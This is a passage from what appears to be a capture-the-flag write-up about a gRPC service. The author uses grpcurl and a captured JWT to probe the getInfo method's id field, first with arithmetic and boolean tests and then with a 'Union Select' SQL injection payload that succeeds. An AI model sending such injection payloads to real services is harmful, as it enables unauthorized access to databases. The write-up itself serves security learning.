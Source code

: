 The login method was returning a token. It was not shown in the normal call. I tried using it and I finally got a response.

```bash
$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d '{"id":"794"}'  target:50051 SimpleApp/getInfo
{
  "message": "Will update soon."
}
```

That response was not very useful, but I started playing with the id I was passing in. I had read that gRPC could be vulnerable to SQL Injection, so I gave that a try.

```bash
$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d '{"id":"795"}'  target:50051 SimpleApp/getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable

$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d '{"id":"1"}'  target:50051 SimpleApp/getInfo
{
  "message": "The admin is working hard to fix the issues."
}

$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d '{"id":"0"}'  target:50051 SimpleApp/getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable

$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d '{"id":"0+1"}'  target:50051 SimpleApp/getInfo
{
  "message": "The admin is working hard to fix the issues."
}

$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d '{"id":"0+2"}'  target:50051 SimpleApp/getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable

$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d '{"id":"2 or 1 = 1"}'  target:50051 SimpleApp/getInfo
{
  "message": "The admin is working hard to fix the issues."
}

$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d '{"id":"2 Union Select 1"}'  target:50051 SimpleApp/getInfo
{
  "message": "1"
}
```
